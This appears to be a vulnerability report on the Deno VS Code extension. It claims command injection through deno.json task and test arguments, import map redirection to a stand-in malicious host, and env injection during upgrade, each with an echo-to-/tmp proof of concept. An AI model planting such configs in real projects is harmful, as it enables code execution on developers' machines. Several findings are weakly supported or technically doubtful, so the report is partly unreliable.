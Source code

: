 ### Vulnerability 1: Insecure Command Execution via Task Definitions in Deno Configuration Files
**Description**:
The extension allows unvalidated execution of user-specified commands from Deno configuration files (`deno.json`). The `buildDenoTask` function in `tasks.ts` constructs tasks using arguments from the configuration, which include user-controlled `args` without proper sanitization. Attackers can craft malicious task definitions to execute arbitrary commands.

**Trigger Steps**:
1. Create a malicious `deno.json` containing a task with malicious arguments (e.g., `"tasks": {"my-task": {"command": "run", "args": ["--allow-run", "malicious.sh"]}}`).
2. Open the workspace in VS Code.
3. The extension parses the task definition, and executing it via the tasks sidebar or command palette runs the malicious command.

**Impact**:
Attackers can execute arbitrary system commands with the privileges of the VS Code process, leading to full system compromise.

**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. The code directly uses user-provided arguments.
**Missing Mitigations**: Input validation/sanitization for task arguments.
**Preconditions**: A malicious `deno.json` file exists in the workspace.
**Source Code Analysis**:
- File `client/src/tasks.ts`, line `buildDenoTask` constructs commands with `args` from configuration.
- Malicious arguments like `--allow-run` can bypass Deno's default restrictions.

**Security Test Case**:
1. Create a workspace with `deno.json` containing:
```json
{
  "tasks": {
    "attack": {
      "command": "run",
      "args": ["--allow-run", "echo 'Attack Executed' > /tmp/attack.txt"]
    }
  }
}```
2. Open VS Code, load workspace.
3. Execute the "attack" task via the tasks sidebar.
4. Check `/tmp/attack.txt` exists with content.

---

### Vulnerability 2: Arbitrary Code Execution via Test Command Arguments
**Description**: The `test` command in `commands.ts` constructs Deno test commands using user-provided arguments. Attackers can craft malicious test configurations in `deno.json` to inject arbitrary flags, such as `--allow-run`, enabling code execution.

**Trigger Steps**:
1. Create `deno.json` with test arguments like `"test": {"args": ["--allow-run", "--allow-env", "sh -c 'echo PWNED > /tmp/exploit'"]`).
2. Run the test via the "Deno: Test" command.

**Impact**: Malicious commands executed, potentially leading to system compromise.

**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. User arguments are directly used.
**Missing Mitigations**: Validation of test arguments.
**Preconditions**: A malicious `deno.json` in the workspace.

**Source Code Analysis**:
- File `client/src/commands.ts`, test function combines `testArgs` from configuration.
- Malicious flags like `--allow-run` can bypass sandboxing.

**Security Test Case**:
1. Create `deno.json` with:
```json
{
  "test": {
    "args": ["--allow-run", "echo 'TEST EXPLOIT' > /tmp/test_exploit.txt"]
  }
}```
2. Run test command.
3. Verify `/tmp/test_exploit.txt` exists.

---

### Vulnerability 3: Unvalidated Import Map Redirection
**Description**: The extension processes import maps (`import_map.json`) without verifying their integrity. Attackers can redirect imports to malicious URLs, causing Deno to fetch and execute malicious modules.

**Trigger Steps**:
1. Create an `import_map.json` in the workspace redirecting a module to an attacker-controlled URL (e.g., `"https://malicious.com/evil.js"`).
2. Open a file importing the redirected module (e.g., `import * from "vulnerable-module"`).

**Impact**: Malicious code execution via fetched modules.

**Vulnerability Rank**: High
**Currently Implemented Mitigations**: None. Import maps are parsed but not validated.
**Missing Mitigations**: Whitelisting of allowed origins or integrity checks.

**Source Code Analysis**:
- File `client/src/enable.ts` enables Deno based on presence of config files.
- The Language Server processes import maps without URL validation.

**Security Test Case**:
1. Create `import_map.json` with:
```json
{
  "imports": {
    "secure-module": "https://malicious-website.com/exploit.js"
  }
}```
2. Create a file `test.ts` with `import _ from 'secure-module';`.
3. Open `test.ts` in VS Code; Deno will fetch the malicious URL.

---

### Vulnerability 4: Command Injection During Deno Upgrade
**Description**: The `denoUpgradePromptAndExecute` function in `upgrade.ts` constructs upgrade commands using user-provided arguments, which can be manipulated to execute arbitrary code.

**Trigger Steps**:
1. Set `"deno.env"` or `"envFile"` in settings to inject malicious environment variables.
2. Trigger the upgrade command via `deno.client.upgrade`.

**Impact**: Exploitation allows running arbitrary commands during upgrade.

**Vulnerability Rank**: High
**Currently Implemented Mitigations**: None. Environment variables and paths are directly applied.
**Missing Mitigations**: Input validation for environment variables.

**Source Code Analysis**:
- File `client/src/upgrade.ts` constructs commands using unsanitized `env` and `args`.

**Security Test Case**:
1. Set `deno.envFile` to point to a file with `MALICIOUS_CMD="echo VULN > /tmp/upgrade.txt"`.
2. Run the upgrade command. Check `/tmp/upgrade.txt` exists.
